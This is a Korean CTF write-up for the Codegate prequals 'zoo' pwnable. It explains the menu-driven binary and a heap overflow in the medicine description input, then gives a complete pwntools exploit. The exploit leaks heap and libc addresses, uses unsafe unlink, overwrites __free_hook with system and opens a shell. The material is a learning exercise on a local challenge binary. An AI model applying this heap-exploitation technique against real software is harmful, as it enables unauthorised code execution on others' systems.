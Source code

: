 ```yaml
---
layout:     post
title:      "Codegate 2018 prequals zoo write-up"
subtitle:   "yeah~~ feel so good~"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2017 Zoo Write Up

### 1. Intro

unsafe ulink에 대한 이해도를 높이는데 많은 도움을 주었다.



### 2. Binary

```
-----------* My Own Zoo *-----------
[1] Adopt an animal
[2] Feed an animal
[3] Clean an amimal house
[4] Take a walk with an animal
[5] Take an animal to the hospital
[6] List animal info
[7] Close the zoo
------------------------------------
```

위와 같이 7개의 메뉴로 이루어져 있다.

1. Adopt an animal
   - 동물을 입양시킨다. (name, type)
2. Feed an animal
   - 동물에게 음식을 주거나 약을 준다.
   - 음식을 주면 food chunk를 할당하며, 간간히 dung chunk도 할당한다.
   - 약을 줄때에는 동물이 병에 걸려 의사에게 약 처방을 받았을 때이며, 약의 정보를 입력한다. (name, description)
3. Clean an animal
   - 동물의 dung chunk를 free한다.
4. Take a walk
   - 동물의 food chunk를 free한다.
   - 만약 동물이 food나 medicine이 아닌 다른걸 가지고있다면, 그곳에 주인의 메세지를 남길 수 있다.
5. Take an animal to the hospital
   - 동물의 dung chunk를 5개 free한다.
   - 만약 그 이후에도 dung chunk가 5개 이상이라면 약을 처방한다.
6. List animal info
   - 동물의 상태를 보여준다. (Name, Species, Likes, Get Food, Get Dung, healthy info)
7. Close the zoo
   - 프로그램을 종료한다.



### 3. Vulnerability

```c
      ...		
      puts("------------------------------------");
      printf("[+] Your animal %s is ill now. :(\n", *&a1->name[8 * (animal_idx + 2LL)] + 4LL);
      puts("[+] You can only feed medicines to your animal.");
      printf("[+] Please tell me the name of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 16LL), 8uLL);
      printf("[+] Please tell me a description of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 24LL), 0x78uLL);// heap_overflow
      ...
```

동물에게 약을 처방할때 heap overflow가 발생하여 다음 chunk 의 prev_size와 size를 덮을 수 있다.<br>또한 이름을 입력하고 그뒤에 바로 food_chunk가 할당되어, 이름을 출력할때 heap_leak을 얻을 수 있다.



### 4. Exploit

Unsafe Unlink를 heap chunk를 대상으로 해주면 된다. 그러면 4번의 메뉴로 animal structure를 overwrite하여 arbitrary read/write가 가능하다.

```python
from pwn import *

s = process('./zoo')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def adopt(idx,name):
	s.sendlineafter('>> ', '1')
	s.sendlineafter('>> ', idx)
	s.sendafter('>> ', name)

def feed(name):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)

def feed_medi(name,medi_name,description):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)
	s.sendafter('>> ', medi_name)
	s.sendafter('>> ', description)

def clean(name):
	s.sendlineafter('>> ', '3')
	s.sendafter('>> ', name)

def walk(name):
	s.sendlineafter('>> ', '4')
	s.sendafter('>> ', name)

def hospital(name):
	s.sendlineafter('>> ', '5')
	s.sendafter('>> ', name)

def a_list(name):
	s.sendlineafter('>> ', '6')
	s.sendafter('>> ', name)


s.sendlineafter('>> ', '/bin/sh')

adopt('1','A' * 20)
feed('A' * 20)
s.recvuntil('A' * 20)
heap = u64(s.recv(6) + "\x00" * 2)
target = heap - 0x6a8 + 0x8
log.info("HEAP : " + hex(heap))
log.info("TARGET : " + hex(target))

adopt('1','A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)

payload = p64(target - 0x18)
payload2 = p64(target - 0x10)
payload2 += '\x00' * 0x60 + p64(0x80) + p64(0x90)

hospital('A' * 10)
adopt('1','A' * 5)

for _ in xrange(1):
	for _ in xrange(20):
		feed('A' * 5)
	for _ in xrange(20):
		walk('A' * 5)
for _ in xrange(8):
	clean('A' * 5)

clean('A' * 10)
feed_medi('A' * 10,'NEXTLINE','NEXTLINE')
feed('A' * 5)
feed_medi('A' * 10, payload , payload2)

for _ in xrange(2):
	clean('A' * 10)

walk('A' * 10)
payload3 = p64(target+0xe80)
payload3 += p64(target+0x1150)
payload3 += p64(target-0x210) # /bin/sh
payload3 += p64(target+0x60)
payload3 += p64(target+0x70)
s.sendafter('>> ',payload3)

s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0x0) * 2 + p64(target+0x970))

a_list('A' * 10)
s.recvuntil('[-] Species : ')
libc = u64(s.recv(6) + "\x00" *2) - 1176 - l.symbols['__malloc_hook']
log.info("LIBC : " + hex(libc))

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0) + p64(libc + l.symbols['__free_hook']-0x18))
s.sendafter('>> ','\x00')

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(libc + l.symbols['system']))

walk('A' * 10)
s.interactive()
```
